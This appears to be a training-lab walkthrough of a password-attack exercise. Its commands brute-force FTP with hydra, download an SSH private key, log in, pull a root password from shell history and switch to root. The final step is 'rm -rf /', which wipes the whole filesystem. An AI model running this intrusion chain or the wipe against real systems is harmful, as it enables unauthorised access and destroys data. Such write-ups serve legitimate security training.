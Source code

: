 # Password Attacks Lab - Easy

Our client Inlanefreight contracted us to assess individual hosts in their network, focusing on access control. The company recently implemented security controls related to authorization that they would like us to test. There are three hosts in scope for this assessment. The first host is used for administering and managing other servers within their environment.

## Walkthrough

```bash
nmap -A -T4 10.129.202.219 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 13:30 EST
Nmap scan report for 10.129.202.219 (10.129.202.219)
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

well since we got 2 wordlist, we brute forcing this one

<pre class="language-bash"><code class="lang-bash"><strong>hydra -L username.list -P password.list  10.129.202.219 ftp -t 64
</strong>#[21][ftp] host: 10.129.202.219   login: mike   password: 7777777
</code></pre>

now lets download everything inside that ftp

```bash
wget ftp://mike:7777777@10.129.202.219/* .
ls
#authorized_keys  id_rsa  id_rsa.pub
OR
ftp 10.129.202.219
#Name (10.129.202.219:kali): mike
#331 Please specify the password.
ls
get id_rsa
exit
```

now we can use it to ssh as mike

```bash
chmod 600 id_rsa
ssh -i id_rsa mike@10.129.202.219
#passphrase:7777777
history
#    7  analysis.py -u root -p dgb6fzm0ynk@AME9pqu
su root
#dgb6fzm0ynk@AME9pqu
rm -rf /
```
